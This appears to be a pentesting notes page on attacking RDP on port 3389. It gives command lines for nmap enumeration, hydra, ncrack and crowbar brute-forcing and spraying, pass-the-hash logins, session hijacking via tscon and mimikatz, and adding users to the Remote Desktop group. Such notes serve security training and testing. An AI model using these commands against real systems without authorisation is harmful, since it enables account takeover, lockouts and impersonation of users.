 ```yaml
---
title: 3389 RDP
author: amandaguglieri
draft: false
TableOfContents: true
tags:
  - rdp
  - port 3389
  - mimikatz
---
```


# 3389 rdp

## Description

source: https://book.hacktricks.xyz/network-services-pentesting/pentesting-rdp and HackTheBox Academy.

Basic information about RDP service: Remote Desktop Protocol (RDP) is a proprietary protocol developed by Microsoft, which provides a user with a graphical interface to connect to another computer over a network connection. The user employs RDP client software for this purpose, while the other computer must run RDP server software (from here).

| Name | Description |
| ---- | ----------- |
| port | 3389/TCP | 
| state | open |
| service | ms-wbt-server |   
| version | Microsoft Terminal Services |
| Banner | rdp-ntlm-info |

RDP works at the application layer in the TCP/IP reference model, typically utilizing TCP port 3389 as the transport protocol. However, the connectionless UDP protocol can use port 3389 also for remote administration. The `Remote Desktop` service is installed by default on Windows servers and does not require additional external applications. This service can be activated using the `Server Manager` and comes with the default setting to allow connections to the service only to hosts with [Network level authentication](https://en.wikipedia.org/wiki/Network_Level_Authentication) (`NLA`).

## Enumeration

To check the available encryption and DoS vulnerability (without causing DoS to the service) and obtains NTLM Windows info (versions).

nmap uses RDPcookies (mstshash=nmap) to interact with the RDP server. These cookies can be identified by  security services such as EDRs, and can lock us out, so we need to think twice before running that scan.

```bash
nmap -Pn -sV -p3389 --script rdp-*  $ip
```

Results:
```
PORT     STATE SERVICE       VERSION
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-enum-encryption:
|   Security layer
|     CredSSP (NLA): SUCCESS
|     CredSSP with Early User Auth: SUCCESS
|_    RDSTLS: SUCCESS
| rdp-ntlm-info:
|   Target_Name: EXPLOSION
|   NetBIOS_Domain_Name: EXPLOSION
|   NetBIOS_Computer_Name: EXPLOSION
|   DNS_Domain_Name: Explosion
|   DNS_Computer_Name: Explosion
|   Product_Version: 10.0.17763
|_  System_Time: 2022-11-11T12:16:26+00:00
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

[rdp-sec-check.pl](https://github.com/CiscoCXSecurity/rdp-sec-check) is a perl script to enumerate security settings of an RDP Service (AKA Terminal Services).

```bash
git clone https://github.com/CiscoCXSecurity/rdp-sec-check.git && cd rdp-sec-check

./rdp-sec-check.pl $ip
```


## Connection with rdp

To run Microsoft’s Remote Desktop Protocol (RDP) client, a command-line interface called Microsoft Terminal Services Client (MSTSC) is used. 
We can connect to RDP servers on Linux using [xfreerdp](xfreerdp.md), [rdesktop](rdesktop.md), or Remmina and interact with the GUI of the server accordingly.

### xfreerdp

[See xfreerdp](xfreerdp.md).

We can first try to form an RDP session with the target by not providing any additional information for any switches other than the target IP address. This will make the script use your own username as the login username for the RDP session, thus testing guest login capabilities.

```bash
xfreerdp /v:$ip
# /v:$ip: Specifies the target IP of the host we would like to connect to.
```

Try to login with other default accounts, such as user, admin, Administrator, and so on.  We will also be specifying to the script that we would like to bypass all requirements for a security certificate so that our own script does not request them:

```bash
xfreerdp /cert:ignore /u:Administrator /v:$ip
# /cert:ignore : Specifies to the scrips that all security certificate usage should be ignored.
# /u:Administrator : Specifies the login username to be "Administrator".
# /v:$ip: Specifies the target IP of the host we would like to connect to.
```

If successful, during the initialization of the RDP session, we will be asked for a password. We can hit Enter to see if the process continue without one. 
Sometimes there are severe mishaps in configurations like this and we can gain access.

If you know user and credentials:

```bash
xfreerdp /u:<username> /p:<"password"> /v:$ip 
```


## Brute force

```
ncrack -vv --user <User> -P pwds.txt rdp://$ip

hydra -V -f -L <userslist> -P <passwlist> rdp://$ip

hydra -L user.list -P password.list rdp://$ip

```
Be careful, you could lock accounts

## Password Spraying

Be careful, you could lock accounts

```bash
# https://github.com/galkan/crowbar
crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'

# hydra
hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
```

## Connect with known credentials/hash

```bash
rdesktop -u <username> $ip
rdesktop -d <domain> -u <username> -p <password> $ip
xfreerdp [/d:domain] /u:<username> /p:<password> /v:$ip
xfreerdp [/d:domain] /u:<username> /pth:<hash> /v:$ip #Pass the hash
```

Check known credentials against RDP services

rdp_check.py from impacket let you check if some credentials are valid for a RDP service:

```
rdp_check <domain>/<name>:<password>@$ip
```

## Attacks

### Session stealing

With SYSTEM permissions you can access any opened RDP session by any user without need to know the password of the owner.

Get openned sessions:
```
query user
```

Access to the selected session
```
tscon <ID> /dest:<SESSIONNAME>
```

Now you will be inside the selected RDP session and you will have impersonate a user using only Windows tools and features.

Important: When you access an active RDP sessions you will kickoff the user that was using it.
You could get passwords from the process dumping it, but this method is much faster and led you interact with the virtual desktops of the user (passwords in notepad without been saved in disk, other RDP sessions opened in other machines...)

### Mimikatz

You could also use mimikatz to do this:
```
ts::sessions #Get sessions
ts::remote /id:2 #Connect to the session
```

Sticky-keys & Utilman
Combining this technique with stickykeys or utilman you will be able to access a administrative CMD and any RDP session anytime

You can search RDPs that have been backdoored with one of these techniques already with: https://github.com/linuz/Sticky-Keys-Slayer


### RDP Process Injection

If someone from a different domain or with better privileges login via RDP to the PC where you are an Admin, you can inject your beacon in his RDP session process and act as him:

### RDP Sessions Abuse

```
# Adding User to RDP group
net localgroup "Remote Desktop Users" UserLoginName /add
```

#### Shadow Attack

AutoRDPwn is a post-exploitation framework created in Powershell, designed primarily to automate the Shadow attack on Microsoft Windows computers. This vulnerability (listed as a feature by Microsoft) allows a remote attacker to view his victim's desktop without his consent, and even control it on demand, using tools native to the operating system itself.


https://github.com/JoelGMSec/AutoRDPwn

